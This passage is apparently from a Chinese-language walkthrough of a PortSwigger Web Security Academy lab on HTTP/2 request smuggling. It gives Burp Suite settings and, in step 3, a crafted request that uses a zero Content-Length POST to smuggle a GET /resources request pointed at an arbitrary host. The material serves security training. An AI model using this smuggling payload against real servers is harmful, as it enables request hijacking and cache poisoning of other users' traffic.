 [![](assets/1705287960-61675e6752de976a8eb07e9f22cf9548.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240111103351-db257146-b029-1.png)  
备注：在构造请求时需要在 Burpsuite 中禁用 Update-CL，同时勾选 Allow HTTP/2 ALPN override 并且把协议改为 HTTP2  
[![](assets/1705287960-4a6dfb9ebda551745d7e4ca08d195194.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240111103402-e21048e6-b029-1.png)  
Step 2：在 Burp suite 中发送"GET /resources"请求，此时可以看到会被重定向到[https://0aed00cf039321e185db1c3f00a80002.web-security-academy.net/resources/](https://0aed00cf039321e185db1c3f00a80002.web-security-academy.net/resources/)

[![](assets/1705287960-f7da394186c3e2dccf200a6e86a4e65f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240111103417-eae1c22e-b029-1.png)  
Step 3：随后尝试构造下面的请求来隐藏对任意的 host 的/resources 请求

```bash
POST / HTTP/2
Host: 0aed00cf039321e185db1c3f00a80002.web-security-academy.net
Cookie: session=LPq3scqI6nFu4qD2LbowPurZhkiVCXtY
Content-Length: 0

GET /resources HTTP/1.1
Host: www.baidu.com
Content-Length: 6

x=1
```
